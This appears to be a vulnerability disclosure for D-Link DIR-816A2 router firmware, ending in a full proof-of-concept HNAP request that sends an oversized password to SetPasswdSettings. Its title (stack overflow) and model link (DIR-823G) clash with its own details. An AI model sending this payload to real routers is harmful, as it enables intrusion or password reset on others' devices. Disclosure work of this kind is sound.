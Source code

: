 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823G

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

SetMultipleActions handler function will traverse the function list, and then query whether there is a matching function in the incoming data. When SetPasswdSettings exists, the SetPasswdSettings handler will be executed.

![](img/2.png#center)

SetPasswdSettings handler function 35 lines of code try to process the incoming password, if the processing fails, execute 53 lines of code to set the password to empty.

![](img/3.png#center)


## Vulnerability verify

![](img/4.gif#center)


## POC

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://purenetworks.com/HNAP1/SetMultipleActions"
HNAP_AUTH: 8D2D80BB8F1D63D9FF6E08DE6B821073 1675516820
X-Requested-With: XMLHttpRequest
Content-Length: 550
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/SNTP.html
Cookie: uid=GcfQ7q3TwY; PrivateKey=455D512F7EA7AA45CC1B4CBB4562DE49; timeout=106

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetMultipleActions xmlns="http://purenetworks.com/HNAP1/"><SetPasswdSettings xmlns="http://purenetworks.com/HNAP1/"><NewPassword>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA</NewPassword></SetPasswdSettings></SetMultipleActions></soap:Body></soap:Envelope>
```
